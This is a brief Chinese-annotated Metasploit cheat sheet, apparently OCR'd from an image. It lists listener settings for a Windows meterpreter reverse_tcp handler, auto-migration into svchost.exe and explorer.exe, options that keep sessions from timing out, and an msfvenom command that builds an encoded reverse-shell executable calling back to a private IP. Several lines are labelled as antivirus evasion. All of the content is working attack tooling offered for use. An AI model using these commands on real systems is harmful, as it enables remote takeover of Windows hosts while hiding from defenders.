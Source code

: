 	>handler -H 192.168.0.10 -P 3333 -p windows/x64/meterpreter/reverse_tcp快速监听
	>setg/unsetg 设置/取消全局参数
	>set autorunscript migrate –f 自动迁移进程
	>set autorunscript migrate -n explorer.exe
	>set AutoRunScript post/windows/manage/migrate
	>set prependmigrate true 自动注入进程
	>set prependmigrateProc svchost.exe
	>set exitonsession false获取到session后继续监听，获得多个session
	>set stagerverifysslcert false 防止出现ssl错误
	>set SessionCommunicationTimeout 0 防止session超时退出
	>set SessionExpirationTimeout 0 防止强制关闭session
	>exploit -j -z  后台持续监听
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -e x86/shikata_ga_nai -b "x00" -i 5 -a x86 --platform windows PrependMigrate=true PrependMigrateProc=explorer.exe -f exe -o  1.exe 执行后注入到已存在的一个进程
	>set EnableStageEncoding true
	>set stageencoder x86/fnstenv_mov 编码进行免杀
	>set stageencodingfallback false
